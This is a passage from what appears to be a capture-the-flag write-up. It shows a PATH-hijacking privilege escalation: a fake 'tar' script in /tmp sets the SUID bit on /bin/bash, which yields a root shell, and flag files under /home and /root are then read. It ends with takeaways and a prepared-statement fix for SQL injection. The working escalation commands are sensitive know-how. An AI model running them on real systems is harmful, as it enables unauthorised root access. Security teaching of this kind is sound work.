 The binary uses `tar` without full path - potential PATH hijacking!

### Exploitation

Creating malicious tar:
```bash
cd /tmp
echo '#!/bin/bash' > tar
echo 'chmod +s /bin/bash' >> tar
chmod +x tar
export PATH=/tmp:$PATH
```

Execute the SUID binary:
```bash
/usr/bin/custom_backup
```

Get root shell:
```bash
/bin/bash -p
whoami  # root!
```

### Capturing Flags

**User flag:**
```bash
cat /home/john/user.txt
[user_flag_here]
```

**Root flag:**
```bash
cat /root/root.txt
[root_flag_here]
```

---

## Key Takeaways

1. **Always test for SQL injection** in login forms and input fields
2. **File upload vulnerabilities** can provide easy initial access
3. **SUID binaries** are common privilege escalation vectors
4. **PATH hijacking** works when binaries don't use absolute paths
5. **Enumeration is crucial** - thorough scanning reveals opportunities

---

## Remediation

### For SQL Injection:
```php
// Use prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
```
